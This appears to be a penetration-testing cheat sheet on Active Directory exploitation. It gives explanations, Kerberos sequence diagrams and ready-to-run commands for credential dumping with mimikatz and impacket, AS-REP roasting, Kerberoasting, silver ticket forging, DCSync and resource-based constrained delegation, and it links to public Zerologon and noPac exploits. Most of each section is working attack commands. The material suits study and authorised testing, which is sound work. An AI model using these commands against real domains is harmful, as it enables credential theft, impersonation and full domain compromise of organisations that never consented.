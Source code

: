 # ⚔️ AD Exploitation

## Dumping Cached AD Credentials

!!! info
    **SYSTEM** privileges are needed

```shell
# linux
impacket-secretsdump -target-ip <target_ip> <domain>/<user>:<pass>@<target_ip>

# win
.\mimikatz.exe
privilege::debug

# dump cached NTLM hashes on the current system
sekurlsa::logonpasswords

# dump tickets
sekurlsa::tickets

# one-liner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## Basic Kerberos Authentication

```mermaid
sequenceDiagram
    participant C as Client
    participant AS as Authentication Server
    participant TGS as Ticket Granting Server
    participant S as Service

    C->>AS: AS-REQ (with credentials)
    AS-->>C: AS-REP (TGT, Session Key for TGS)
    Note right of C: Stores TGT and session key to talk with TGS

    C->>TGS: TGS-REQ (TGT, Authenticator, SPN of Service)
    TGS-->>C: TGS-REP (Service Ticket, Session Key for Service)
    Note right of C: Now has a ticket & session key to talk with Service

    C->>S: AP-REQ (Service Ticket, Authenticator)
```

## AS-REP Roasting

Attack that exploits accounts with **Do not require Kerberos preauthentication** enabled to obtain and crack TGTs offline, revealing the user's NTLM hash.

```mermaid
sequenceDiagram
    participant Attacker
    participant KDC

    Attacker->>KDC: AS-REQ (Username, "Pre-Authentication Not Required")
    activate KDC
    KDC-->>Attacker: AS-REP (TGT encrypted with user's NTLM hash)
    deactivate KDC

    Attacker->>Attacker: Offline Cracking (Attempt to crack TGT to reveal NTLM hash)
```

!!! info
    🐈‍⬛ Hashcat mode -> 18200

```shell
# linux
impacket-GetNPUsers <domain>/ -dc-ip <ip> -request -no-pass -usersfile <valid_users>
kerbrute userenum -d <domain> --dc <ip> <valid_users>

# windows
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting

Attack that targets service accounts by requesting service tickets and cracking them offline to obtain the account's password.

```mermaid
sequenceDiagram
    participant Attacker
    participant KDC
    participant Service

    Attacker->>KDC: AS_REQ (Valid User Credentials)
    activate KDC
    KDC-->>Attacker: AS_REP (TGT)
    deactivate KDC

    Attacker->>KDC: TGS_REQ (TGT, SPN of target service)
    activate KDC
    KDC-->>Attacker: TGS_REP (Service Ticket encrypted with service account's password)
    deactivate KDC

    Attacker->>Attacker: Offline Cracking (Attempt to crack service ticket)

    Attacker->>Service: AP_REQ (Service Ticket, Authenticator)
    activate Service
    Service-->>Attacker: Access Granted
    deactivate Service
```

!!! info
    🐈‍⬛ Hashcat mode -> 13100

```shell
# sync local time with server if error
ntpdate <dc_ip>

impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>

# windows
.\Rubeus.exe kerberoast /nowrap
```

## Silver Ticket

Is a forged Kerberos Ticket Granting Service (TGS) ticket that allows an attacker to gain unauthorized access to a specific service, bypassing the need to request a ticket from the Key Distribution Center (KDC) after initial authentication.

```mermaid
sequenceDiagram
    participant Attacker
    participant Target Service

    Attacker->>Attacker: Extracts NTLM hash of Service Account
    Attacker->>Attacker: Creates forged TGS (Silver Ticket)
    Attacker->>Target Service: Forged AP-REQ (Sends forged TGS to access service)
    Target Service-->>Attacker: AP-REP (Grants unauthorized access)
```

Three pieces of info are needed:

- SPN password hash
- Domain SID
- Target SPN

```shell
# windows 
# SPN hash
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# domain SID
whoami /user
# take everything except the last part; only the domain SID, not the user RID

# forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit

# show saved tickets
klist

# access the service
iwr -UseDefaultCredentials <servicename>://<computername>

# linux
impacket-ticketer -nthash <hash> -domain-sid <sid> -domain <domain> -spn <spn> <user>

# export the ticket
export KRB5CCNAME=<ticket>.ccache

# access the target
impacket-psexec <domain>/<user>@<target> -k -no-pass
```

## DCSync

Is an attack that allows an attacker with sufficient privileges to request password hashes and other sensitive information directly from a domain controller, effectively mimicking the behavior of a legitimate domain controller replicating data.

The user needs the following permissions or must belong to a privileged group:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

!!! info
    🐈‍⬛ Hashcat mode -> 1000

```shell
# linux
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>

# windows
.\mimikatz.exe
lsadump::dcsync /user:<domain\user>

# one-liner
.\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
```

## RBCD

A **Resource-Based Constrained Delegation** allows an attacker with write access to a computer object's delegation attribute to impersonate any user on that computer, enabling privilege escalation or lateral movement.

> <https://github.com/tothi/rbcd-attack>

```shell
# Create a new computer
impacket-addcomputer <domain>/<user> -computer-name 'evilcomputer$' -computer-pass 'ev1lP@sS' -dc-ip <ip> -hashes :<hash>

# Add the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer
rbcd.py -f EVILCOMPUTER -t <computer> -dc-ip <ip> <domain>\\<user> -hashes :<hash>

# Fetch a CIFS Service Ticket on behalf of the targetted domain user admin and stores it in the file admin.ccache
impacket-getST -spn cifs/<computer>.<domain> -impersonate administrator -dc-ip <ip> <domain>/EVILCOMPUTER$:ev1lP@sS
```

Export the ticket and access the computer as administrator

```shell
export KRB5CCNAME=administrator@cifs_<computer>.<domain>@<DOMAIN>.ccache
                                                                                                  
impacket-psexec -k <computer>.<domain>
```

## CVEs and Exploits

- [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
- [MS14-068 - Golden Pac](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) `impacket-goldenPac`
- [CVE-2021-42278 and CVE-2021-42287 - noPac](https://github.com/Ridter/noPac)
